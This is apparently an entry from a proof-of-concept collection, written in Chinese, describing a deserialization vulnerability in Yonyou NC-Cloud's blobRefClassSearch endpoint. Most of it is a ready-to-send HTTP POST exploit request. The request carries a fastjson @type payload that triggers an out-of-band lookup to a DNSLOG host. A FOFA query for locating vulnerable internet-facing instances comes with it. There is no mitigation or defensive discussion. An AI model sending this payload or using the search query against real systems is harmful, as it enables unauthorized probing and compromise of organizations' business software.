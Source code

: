 ## 用友NC-Cloud接口blobRefClassSea存在反序列化漏洞

用友NC Cloud接口 /ncchr/pm/ref/indiIssued/blobRefClassSearch 存在反序列漏洞。

## fofa

```yaml
app="用友-NC-Cloud"
```

## poc

```yaml
POST /ncchr/pm/ref/indiIssued/blobRefClassSearch HTTP/1.1
Content-Type: application/json
Host: 
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.4103.116 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

{"clientParam":"{\"x\":{\"@type\":\"java.net.InetSocketAddress\"{\"address\":,\"val\":\"DNSLOG.COM\"}}}"}
```

